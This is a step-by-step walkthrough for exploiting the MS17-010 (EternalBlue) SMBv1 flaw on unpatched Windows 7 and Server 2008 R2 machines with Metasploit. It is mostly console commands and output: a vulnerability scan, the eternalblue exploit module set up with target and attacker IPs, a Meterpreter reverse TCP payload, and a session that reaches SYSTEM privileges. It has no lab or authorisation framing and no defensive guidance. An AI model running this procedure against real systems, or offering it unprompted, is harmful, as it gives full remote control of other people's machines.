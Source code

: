 # Walkthrough: Exploiting MS17-010 (EternalBlue)

This document describes the steps to exploit the SMBv1 vulnerability on Windows systems using the EternalBlue module in Metasploit.

**Target**: A Windows 7 / Windows Server 2008 R2 machine (without the MS17-010 security patch)
**Objective**: To obtain a Meterpreter shell with SYSTEM privileges.

-----

### Phase 1: Preparation and Scanning

Ensure you are on the same network as the target. First, we will verify if the target is vulnerable using an auxiliary scanner module.

1.  **Launch Metasploit**

    ```bash
    msfconsole
    ```

2.  **Search for and Use the Scanner Module**

    ```
    msf6 > search ms17-010
    msf6 > use auxiliary/scanner/smb/smb_ms17_010
    ```

3.  **Set Options**
    Replace `192.168.1.10` with your target's IP address.

    ```
    msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.10
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run
    ```

4.  **Analyze the Results**
    If the output indicates `Host is likely VULNERABLE to MS17-010`, you can proceed to the exploitation phase.

### Phase 2: Exploitation

Now we will use the exploit module to gain access.

1.  **Use the Exploit Module**

    ```
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    ```

2.  **View the Required Options**

    ```
    msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
    ```

    We need to set `RHOSTS` and `LHOST`.

3.  **Set the Exploit Options**

      * `RHOSTS`: The IP address of the target machine.
      * `LHOST`: The IP address of your machine (the attacking machine).
      * `PAYLOAD`: We will use the 64-bit Meterpreter reverse TCP payload.

    <!-- end list -->

    ```
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.10
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.10.1
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    ```

4.  **Run the Exploit**

    ```
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
    ```

### Phase 3: Post-Exploitation

If successful, you will see a `WIN` message and a Meterpreter session will open.

[] Sending encoded stage (206403 bytes) to 192.168.1.10
[] Meterpreter session 1 opened (10.10.10.1:4444 -\> 192.168.1.10:49157) at ...

meterpreter \>

You now have full control over the target machine. Verify your access rights:
meterpreter \> getuid
Server username: NT AUTHORITY\\SYSTEM

**Walkthrough complete.**
